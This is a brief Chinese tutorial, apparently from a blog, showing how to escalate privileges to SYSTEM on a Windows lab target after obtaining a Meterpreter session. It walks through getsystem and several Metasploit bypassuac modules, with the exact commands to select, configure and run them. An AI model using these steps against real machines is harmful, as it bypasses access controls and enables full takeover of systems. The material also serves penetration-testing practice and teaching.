 # 一、环境准备

1 MSF-Metasploit Framework

2 一台windiows靶机

# 二、实战

1 提权方法（Windows）查看当前获得用户的权限   meterpreter 中输入： getuid

![1644493116225](https://image.201068.xyz/assets/1644493116225.png)

方法一、 meterpreter中输入：`getsystem`

![1644493125642](https://image.201068.xyz/assets/1644493125642.png)

方法二、使用msf模块提权

要想提权必须是已经拿到meterpreter  然后将当前meterpreter 后台 meterprerer中输入  `background`

1、 查看可用模块  MSF终端中输入   `search bypassuac`   查看提权模块

2、 选择一个适合当前系统的提权模块  我这边使用的是win10系统

那我们使用：

`use  exploit/windows/local/bypassuac_windows_store_reg` 

 尝试提权

这个模块不行就换一个 

`use exploit/windows/local/bypassuac_sluihijack`

或者  

`use exploit/windows/local/bypassuac_dotnet_profiler`

3 配置模块使用参数   终端内输入： `show options`

4 可以看到需要配置 session  终端内输入：

`set session 1`

5 执行提权  终端内输入：`run`

6 获取到meterpreter后 我们在终端内 输入getuid 看实际还没有提权成功  需要在还终端内在输入 `getsystem` 获取权限 

7 获取权限完成后 输入`getuid` 即可看到  已经获取到SYSTEM 最高权限了

![1644493163472](https://image.201068.xyz/assets/1644493163472.png)

看到这个证明已经将权限提升成功

